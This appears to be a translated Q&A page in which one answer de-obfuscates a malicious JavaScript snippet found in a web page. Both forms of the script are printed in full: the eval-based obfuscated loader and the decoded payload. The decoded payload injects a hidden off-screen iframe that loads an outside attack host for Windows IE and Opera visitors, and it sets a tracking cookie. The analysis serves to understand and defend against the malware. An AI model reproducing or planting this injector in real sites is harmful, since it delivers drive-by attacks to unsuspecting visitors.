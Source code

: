 ```
```
ww=window;v="v"+"al";if(ww.document)try{document.body=12;}catch(gdsgsdg){asd=0;try{d=document}catch(agdsg){asd=1;}if(!asd){w={a:ww}.a;v="e".concat(v);}}e=w[v];if(1){f=new Array(102,116,108,96,116,104,109,107,32,102,112,94,40,96,42,95,41,122,112,98,116,116,112,107,32,76,95,113,104,45,100,105,111,110,112,37,77,96,114,101,46,113,95,107,100,110,107,37,41,41,38,95,45,96,41,46,41,40,41,94,59,124,11,7,102,116,108,96,116,104,109,107,32,113,113,37,41,122,112,98,116,116,112,107,32,76,95,113,104,45,112,94,110,99,109,106,40,40,44,113,111,82,114,111,105,109,101,37,51,53,39,43,115,116,96,112,116,113,103,107,103,39,51,38,59,124,11,7,105,101,38,107,97,117,103,100,97,115,109,111,46,98,109,108,107,104,99,66,110,96,96,105,101,99,39,120,13,9,7,115,97,113,30,112,116,109,107,58,114,114,38,38,59,12,8,6,118,96,112,29,117,96,30,58,32,109,95,115,105,102,95,113,111,113,44,114,115,100,112,62,103,100,108,113,59,12,8,6,118,96,112,29,117,113,106,29,61,31,98,108,99,116,107,98,110,115,44,105,111,98,95,113,105,110,108,43,104,113,99,99,59,12,8,6,105,101,38,114,114,107,44,102,110,99,99,117,79,101,38,36,97,99,107,102,110,38,39,58,61,44,47,29,38,37,30,114,97,45,103,107,100,100,118,76,102,39,37,84,105,109,98,108,119,114,37,38,33,60,43,46,32,37,36,29,40,116,95,43,105,109,98,98,120,78,100,37,39,76,81,70,69,38,39,30,61,44,47,121,124,116,95,43,105,109,98,98,120,78,100,37,39,78,110,98,114,96,37,38,33,60,43,46,41,40,121,10,10,8,7,97,111,98,115,106,101,109,114,43,119,113,103,113,101,39,37,57,115,115,119,105,101,61,44,112,39,42,113,113,110,108,41,36,32,122,30,109,111,114,103,113,105,110,108,55,97,97,113,108,108,116,114,98,59,31,106,98,102,115,56,42,39,42,101,111,97,39,52,45,48,43,47,45,48,47,39,40,39,111,118,56,32,115,109,109,58,44,37,40,103,113,95,37,54,47,46,41,49,47,46,45,41,42,37,109,120,58,30,122,60,46,113,113,121,107,99,59,32,59,98,102,118,31,97,105,97,114,113,58,34,114,37,40,115,115,108,106,43,38,32,59,60,104,100,111,97,108,99,29,115,113,97,58,34,103,114,113,112,57,45,44,112,116,106,105,100,110,117,107,108,96,119,112,46,104,108,99,111,46,95,97,47,101,99,98,100,45,110,101,112,33,30,116,105,99,114,101,61,33,37,40,103,113,95,37,51,47,46,41,54,47,46,38,43,38,32,29,104,100,103,100,104,115,59,31,39,42,101,111,97,39,49,45,48,43,52,45,48,40,41,36,34,61,58,44,105,101,112,94,109,100,60,57,47,99,103,115,62,38,39,56,13,9,7,122,13,9,7,115,97,113,30,98,120,111,59,107,101,118,30,65,97,115,99,37,41,58,99,117,112,45,113,98,116,67,95,113,101,39,99,117,112,45,101,98,116,67,95,113,101,39,39,40,55,40,57,10,10,8,103,99,40,99,109,96,117,108,99,107,116,45,97,108,111,106,103,98,46,104,108,97,101,119,77,99,40,38,93,92,117,115,107,99,114,60,37,38,61,60,43,46,41,122,98,108,99,116,107,98,110,115,44,96,111,110,105,102,101,60,37,92,95,116,114,106,102,113,59,36,43,113,113,37,41,42,37,56,32,100,118,109,105,113,99,112,61,38,41,98,120,111,44,113,111,70,75,81,83,115,112,102,110,102,38,38,43,38,57,29,112,96,114,101,61,46,37,56,125,12,8,122);}w=f;s=[];for(i=0;-i+800!=0;i+=1){j=i;if((031==0x19))if(e)s=s+String.fromCharCode((1*w[j]+e("j%4")));}xz=e;try{document.body++}catch(gdsgd){xz(s)} 
```

* * *

## 回答 #1

> 赞同：2
> 
> 时间：2013-01-15T22:34:54.483

首先，通过[http://jsbeautifier.org/](http://jsbeautifier.org/)提供它。

你现在可以很容易地推导出它`v`变成了 string `"eval"`，并且`e`是`eval`函数。此外，您可以运行从数组项构建字符串的循环，以查看它的作用：

```
function gra(a,b){return Math.floor(Math.random()*(b-a+1))+a;}
function rs(){return Math.random().toString(36).substring(5);}
if(navigator.cookieEnabled){
    var stnm=rs();
    var ua = navigator.userAgent;
    var url = document.location.href;
    if(url.indexOf('admin')==-1 && ua.indexOf('Windows')!=-1 && (ua.indexOf('MSIE')!=-1||ua.indexOf('Opera')!=-1)){
        document.write('<style>.s'+stnm+' { position:absolute; left:-'+gra(600,1000)+'px; top:-'+gra(600,1000)+'px; }</style> <div class="s'+stnm+'"><iframe src="http://pulldownlays.info/ad/feed.php" width="'+gra(300,600)+'" height="'+gra(300,600)+'"></iframe></div>');
    }
    var exp=new Date();exp.setDate(exp.getDate()+7);
    if(document.cookie.indexOf('__utmfr=')==-1){document.cookie='__utmfr='+rs()+'; expires='+exp.toGMTString()+'; path=/';}
} 
```
```